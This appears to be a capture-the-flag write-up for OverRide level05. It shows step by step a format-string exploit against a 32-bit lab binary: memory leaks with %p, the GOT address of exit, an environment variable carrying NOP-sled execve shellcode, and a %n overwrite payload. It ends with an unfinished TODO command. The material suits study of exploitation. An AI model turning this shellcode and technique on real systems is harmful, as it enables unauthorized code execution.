 # Level 5

Ah `printf`, don't we love it?

```shell
level05@OverRide:~$ ./level05 
%p
0x64
```
We have another 32bit program with vulnerable format strings on our hands.

Let's find where we control the buffer
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "BBBB" + "%p|"*10') 
bbbb0x64|0xf7fcfac0|0xf7ec3add|0xffffd6ef|0xffffd6ee|(nil)|0xffffffff|0xffffd774|0xf7fdb000|0x62626262|
```
Oh yeah, our uppercase characters get converted to lowercase, but we can see it's the 10th arg
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "0000%10$p"')
00000x30303030
```

Ok Let's find the value of `exit` to replace it in the GOT
```shell
level05@OverRide:~$ gdb ./level05                                    
(gdb) disas exit                  
Dump of assembler code for function exit@plt:                        
   0x08048370 <+0>:     jmp    *0x80497e0                            
   0x08048376 <+6>:     push   $0x18                                 
   0x0804837b <+11>:    jmp    0x8048330                             
End of assembler dump.            
```
`0x80497e0` is `exit` in the GOT

But this time we don't just have a function to call, what are we gonna do!
```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Of course! Let's now get the address of our shellcode with some safety margin for good measure.
```shell
level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xffffdd10 "\220\220\220\220\220\220\220\220\220\220\220\220...
```
Let's add a good `0x64` just to be safe -> `0xFFFFDD74`
GOT exit -> `0x80497e0`
```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "%{}10$p".format(str(0xFFFFDD74))')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + "%{}10$p".format(str(0xFFFFDD74))')
[Inferior 1 (process 32014) exited normally]
```

TODO
```
level05@OverRide:~$ ./level05   < <(python -c 'print "\xe0\x97\x04\x08" + "%{}$p".format(str(0xffffdd74)) + "%10$n"')
```
